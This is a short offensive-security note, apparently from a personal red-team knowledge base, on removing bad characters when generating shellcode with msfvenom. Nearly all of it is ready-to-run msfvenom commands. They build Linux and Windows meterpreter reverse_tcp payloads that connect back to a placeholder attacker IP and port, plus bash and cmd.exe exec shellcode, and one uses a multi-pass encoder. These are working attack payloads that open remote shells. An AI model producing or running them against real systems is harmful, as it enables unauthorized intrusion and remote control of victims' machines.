 # Bad Characters

When removing bad characters `msfvenom` will warn you by throwing an error that in case if the shellcode have problems try to use with [[07 - Tactics & Techniques & Procedures (TTPs) Phases/C - Initial Access/0x01 - Weaponization/0xC - Client-Side Attacks/Delivery Methods/File Attachment/Implant/Cross Platform/Helpers/MSFVenom/01 - Usage/Encoders|enoders]] to get around it. Here are the some specific payloads that I've played around with and this is the result I get:

## Linux

```
$ msfvenom -p linux/x86/meterpreter/reverse_tcp lhost=<IP> lport=<PORT> -b "\x00\xff\x0a\x0d" -f c > payload-x86.c

$ msfvenom -p linux/x64/meterpreter/reverse_tcp lhost=<IP> lport=<PORT> -b "\x00\x0a\x0d" -f c > payload-x64.c

$ msfvenom -p linux/x64/exec cmd=/bin/bash -b "\x00\x0a\x0d" -f c > payload-x64.c
```

## Windows

```
$ msfvenom -p windows/meterpreter/reverse_tcp lhost=<IP> lport=<PORT> -b "\x00\xff\x0a\x0d" -f c > payload-x86.c

$ msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=<IP> lport=<PORT> -b "\x00\x0a\x0d" -f c > payload-x64.c

$ msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=<IP> lport=<PORT> -b "\x0a\x0d" -e x64/zutto_dekiru -i 9 -f c > payload-x64-enc.c

$ msfvenom -p windows/x64/exec cmd=cmd.exe -b "\x00\x0a\0xd" -f c > payload-x64.c
```